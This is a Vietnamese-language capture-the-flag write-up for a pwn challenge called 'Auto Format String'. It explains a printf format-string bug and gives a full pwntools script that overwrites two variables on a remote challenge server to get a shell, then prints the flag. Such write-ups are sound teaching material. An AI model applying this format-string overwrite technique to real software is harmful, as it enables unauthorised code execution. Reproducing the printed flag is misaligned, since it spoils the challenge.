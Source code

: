 # **Auto Format String - PWN CTF Challenge**

### ***Exploitation***
---

Đầu tiên ta kiểm tra được đây là file ELF 64-bit, và được bật full cơ chế bảo vệ.

![checkfile](images/checkfile.png)

Chạy thử chương trình thì thấy dòng báo sử dụng format string để ghi đè giá trị của 2 biến `a` và `b` đã cho với địa chỉ của biến `a` đã cho trước.

![test](images/test.png)

Thực hiện xem mã giả bằng IDA thì dễ dàng thấy lỗi format string nó nằm ở hàm `printf(s)`. Chỉ cần ghi đè giá trị của 2 biến `a` và `b` bằng với giá trị random đã cho, ta sẽ có được shell.

![sourcecode](images/sourcecode.png)

Test format string với payload `'a'*8 + '%p-'*15`, có thể thấy buffer mình nhập vào `0x6161616161616161` nằm ở vị trí thứ 10 tính từ đỉnh stack.

![findoffset](images/findoffset.png)

Ta sẽ đi tìm địa chỉ của biến b trước khi đi vào ghi đè bằng format string. Bằng IDA, có thể thấy `b_address = a_address - 0x8`.

![address](images/address.png)

Ta sử dụng một chức năng rất tiện ích của pwntools là tự tạo payload format string bằng hàm `fmtstr.fmtstr_payload()`. Các bạn có thể tham khảo tại [link](https://docs.pwntools.com/en/stable/fmtstr.html#pwnlib.fmtstr.fmtstr_payload) sau.

Các tham số được truyền vào là:

- `10` : offset - vị trí thứ 10 từ đỉnh stack (đã phân tích ở trên).
- `writes`: dictionary - bao gồm cặp địa chỉ và giá trị của các biến `a` và `b`.
- `write_size`: ở đây ta ghi đè theo short int (2 bytes) vì các values cần ghi đè rất là lớn.

Mã khai thác được trình bày chi tiết tại [autofmt.py](autofmt.py).

```js
from pwn import *

#p = process('./autofmt')
p = remote('45.122.249.68', 10015)

context.clear(arch = 'amd64')

p.recvline()

a_val = int(p.recvline()[4:-1])
b_val = int(p.recvline()[4:-1])
a_add = int(p.recvline()[11:-1],16)
b_add = a_add - 8

writes = {a_add: a_val, b_add: b_val}

payload = fmtstr.fmtstr_payload(10, writes, write_size='short')

p.sendline(payload)
p.interactive()
```

Thực thi và ta có flaggggggggggg!!!

![flag](images/flag.png)

> **FLAG: Wanna.One{do_cac_ban_tren_the_gian_nay_khoang_cach_nao_la_xa_nhat}**






